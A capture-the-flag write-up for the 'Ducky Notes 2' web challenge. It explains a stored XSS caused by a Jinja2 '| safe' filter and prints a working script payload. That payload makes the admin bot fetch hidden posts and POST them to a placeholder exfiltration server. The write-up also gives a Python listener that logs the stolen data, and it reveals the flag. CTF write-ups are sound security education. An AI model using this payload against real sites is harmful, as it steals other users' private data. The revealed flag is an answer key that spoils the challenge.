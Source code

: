 #### Challenge:

Quack quack! Try and huack me!

[ducky_notes_2.zip](./ducky_notes_2.zip ":ignore")

---

#### Solution:

This is very similar to `Baby Ducky Notes`, but this time the flag post has hidden property set to true, which means only the post author can see it. Luckily, there is an `XSS` vulnerability in the view post page (indicated in the `posts.html` template by `| safe` Jinja2 filter).

So we create a post with the following payload:

```html
<script>
fetch('/posts/view/admin', {credentials: "include"})
    .then(function(response) {
        return response.text()
    })
    .then(function(html) {
        fetch(
            "http://our-exfiltration-server-ip:8080/",
            {
                "body": JSON.stringify({data:html}),
                "method": "POST",
                headers: { 'Content-Type': 'application/json' }
            }
        )
    })
</script>
```

And report it so that the `Admin` bot triggers the XSS.
Then we just read the flag in the logs of our exfiltration web server. Note that the server should allow all `CORS` requests, e.g.:

```python
#!/usr/bin/env python3

from http.server import HTTPServer, SimpleHTTPRequestHandler
import sys
import logging

class RequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')
        self.send_header('Access-Control-Allow-Methods', '*')
        self.send_header('Access-Control-Allow-Headers', '*')
        self.send_header('Cache-Control', 'no-store, no-cache, must-revalidate')
        return super(RequestHandler, self).end_headers()

    def do_OPTIONS(self):
        self.send_response(200)
        self.end_headers()
        logging.error(self.headers)

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        logging.error(self.headers)

    def do_POST(self):
        self.send_response(200)
        self.end_headers()
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        logging.error(self.headers)
        logging.error(str(post_data)+'\n\n')

host = sys.argv[1] if len(sys.argv) > 2 else '0.0.0.0'
port = int(sys.argv[len(sys.argv)-1]) if len(sys.argv) > 1 else 8080

print("Listening on {}:{}".format(host, port))
httpd = HTTPServer((host, port), RequestHandler)
httpd.serve_forever()
```

---

<details><summary>FLAG:</summary>

```
TFCCTF{Ev3ry_duCk_kn0w5_xSs!}
```

</details>
<br/>